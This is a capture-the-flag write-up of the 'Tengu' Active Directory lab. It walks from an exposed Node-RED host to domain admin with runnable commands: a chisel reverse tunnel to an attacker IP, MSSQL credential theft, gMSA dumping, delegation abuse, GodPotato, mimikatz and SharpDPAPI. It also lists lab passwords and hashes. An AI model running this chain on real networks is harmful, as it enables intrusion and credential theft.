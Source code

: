 
![](Tengu_Cover.png)


### INFO

```
Nmap scan report for 10.10.243.149
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.tengu.vl
| Not valid before: 2024-08-27T13:46:04
|_Not valid after:  2025-02-26T13:46:04
|_ssl-date: 2024-08-28T13:50:03+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: DC.tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:49:59+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.150
Host is up (0.19s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=SQL.tengu.vl
| Not valid before: 2024-08-27T13:46:06
|_Not valid after:  2025-02-26T13:46:06
| rdp-ntlm-info: 
|   Target_Name: TENGU
|   NetBIOS_Domain_Name: TENGU
|   NetBIOS_Computer_Name: SQL
|   DNS_Domain_Name: tengu.vl
|   DNS_Computer_Name: SQL.tengu.vl
|   DNS_Tree_Name: tengu.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-28T13:50:38+00:00
|_ssl-date: 2024-08-28T13:50:43+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```
Nmap scan report for 10.10.243.151
Host is up (0.19s latency).

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 86:a2:62:65:84:f4:ec:5b:a8:a8:a3:8f:83:a3:96:27 (ECDSA)
|_  256 41:c7:d4:28:ec:d8:5b:aa:97:ee:c0:be:3c:e3:aa:73 (ED25519)
1880/tcp open  vsat-control?
| fingerprint-strings: 
|   DNSVersionBindReqTCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Access-Control-Allow-Origin: *
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1736
|     ETag: W/"6c8-alK4HUX6EE46WSbf+286KDcADEI"
|     Date: Wed, 28 Aug 2024 13:52:45 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="X-UA-Compatible" content="IE=edge" />
|     <meta name="viewport" content="width=device-width, initial-scale=1, maximum-scale=1, user-scalable=0"/>
|     <meta name="apple-mobile-web-app-capable" content="yes">
|     <meta name="mobile-web-app-capable" content="yes">
|     <!--
|     Copyright OpenJS Foundation and other contributors, https://openjsf.org/
|     Licensed under the Apache License, Version 2.0 (the "License");
|     this file except in compliance with the License.
|     obtain a copy of the License at
|     http://www.apache.org/licenses/LICENSE-2.0
|     Unless required by applicable law or agreed to in writing, sof
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 204 No Content
|     Access-Control-Allow-Origin: *
|     Access-Control-Allow-Methods: GET,PUT,POST,DELETE
|     Vary: Access-Control-Request-Headers
|     Content-Length: 0
|     Date: Wed, 28 Aug 2024 13:52:46 GMT
|_    Connection: close
```


```
└─# crackmapexec rdp ip_
RDP         10.10.243.149   3389   DC               [*] Windows 10 or Windows Server 2016 Build 20348 (name:DC) (domain:tengu.vl) (nla:True)
RDP         10.10.243.150   3389   SQL              [*] Windows 10 or Windows Server 2016 Build 20348 (name:SQL) (domain:tengu.vl) (nla:True)
```


Ok , The scenario is DC and SQL only got RDP port accessible from external network . And 3rd machine is linux with 1880 http and ssh port opened.


![](Node_Red.png)

Its Node-Red  ! ```Node-RED is a programming tool for wiring together hardware devices, APIs and online services in new and interesting ways. It provides a browser-based editor that makes it easy to wire together flows using the wide range of nodes in the palette that can be deployed to its runtime in a single-click.```


### NODE_RED


![](Rce_Node.png)



After some enumeration , found some credentials , config files . We can decrypt those  ! [Blog](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/)

ChatGpt Made a cool script to decrypt the creds , Copy that to the victim machine.


![](Decrypt_Creds.png)

```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppyOverall25"}}nodered_
```

Now , we need to enumerate the network , some ports from the DC and SQL might only be accessible via the internal network . 


Upload Chisel to the machine , and start the reverse socks proxy !


``` Attacker
└─# ./chisel_ server --port 443 --reverse
```


```Victim
$ ./chisel_ client 10.8.0.148:443 R:socks
```



```
└─# proxychains -q impacket-mssqlclient tengu.vl/nodered_connector:DreamPuppyOverall25@10.10.250.86
```

![](Mssql_Access.png)


```
use Demo

SELECT * FROM demo.INFORMATION_SCHEMA.TABLES;

select * from Users;
```


![](Mssql_Creds.png)


![](Crak_Station.png)

Cool ! Its the domain user account ! Lets enumerate AD


```
└─# proxychains bloodhound-python --username t2_m.winters --password Tengu123 --domain tengu.vl --nameserver 10.10.250.85 --domain-controller DC.tengu.vl --collectionmethod all --zip
```


```
└─# ssh t2_m.winters@tengu.vl@10.10.250.87
```

t2_m.winters is member of linux_admin group. So its obvious we are root level user.


We can decode the krb5.keytab file i.e klist file  [with](https://github.com/sosdave/KeyTabExtract) . Lets copy the file to the victim and decrypt .


![](Decode_KeyTab.png)


Its the machine account hash NODERED$ . 


### SQL_SERVER


![](Node_Red_Privilege.png)

Now , That's cool. NODERED$ can read gmsa password . We gonna use this tool /  [script](https://github.com/micahvandeusen/gMSADumper)

```
└─# proxychains python gMSADumper.py -u 'NODERED$' -p 'd4210ee2db0c03aa3611c9ef8a4dbf49:d4210ee2db0c03aa3611c9ef8a4dbf49' -d tengu.vl -l dc.tengu.vl
```


![](Gmsa_Creds.png)

```
gMSA01$:::fb7788e6bfa32c568a9dba5490c49575
```



![](Allowed_To_Delegate.png)

Now , GMSA01$ is allowed to delegate to the SQL_ADMINS group and SQL.TENGU.VL computer. Lets abuse this.

![](Delegate_Allowed.png)



Impersonation administrator didnt worked, So we impersonated T1_M.WINTERS , who is member of SQL_Admins.

```
└─# proxychains -q impacket-getST -spn MSSQLSvc/SQL.tengu.vl -impersonate 'T1_M.WINTERS' -altservice cifs -hashes :fb7788e6bfa32c568a9dba5490c49575 'tengu.vl/gMSA01$' -dc-ip 10.10.172.245
```

![](M.Winters_Ccache.png)

```
└─# export KRB5CCNAME=T1_M.WINTERS@cifs_SQL.tengu.vl@TENGU.VL.ccache 
```

Lets login to the sql_server .

```
└─# proxychains -q impacket-mssqlclient -k sql.tengu.vl
```

We are admin and can run system commands , So lets get reverse shell and impersonate cause we got access via the sql server.


![](Cmd_Shell.png)


![](Privilge_SQL.png)

Now , We gonna privilege access with  [God Potato exploit !](https://github.com/BeichenDream/GodPotato)


Get Reverse shell as nt/authority !


![](SQL_Rooted.png)


Lets upload mimikatz and do some post-enumeration !


```
└─# proxychains -q crackmapexec smb 10.10.172.246 -u administrator -H 73db3fdd24bee6eeb5aac7e17e4aba4c --local-auth
```


### DOMAIN_ADMIN

We found that , c.fowler has recently logged-into this machine , and also a process running , So we can run  [sharp_dpapi](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpDPAPI.exe) to gain his credentials . 

```
PS C:\admin> .\SharpDPAPI.exe machinetriage /showall
```

![](Domain_Admin_Hound.png)



```
└─# proxychains evil-winrm -i 10.10.172.245 -u T0_c.fowler -p UntrimmedDisplaceModify25
```

This account is restricted to auth. with NTLM . Why not use kerberos authentication.


```
└─# proxychains impacket-getST -spn cifs/dc.tengu.vl tengu.vl/T0_c.fowler:UntrimmedDisplaceModify25 -dc-ip 10.10.172.245

└─# export KRB5CCNAME=T0_c.fowler@cifs_dc.tengu.vl@TENGU.VL.ccache 
```

```
└─# proxychains impacket-smbexec -k -no-pass dc.tengu.vl
```


![](Domain_Admin_Hound.png)

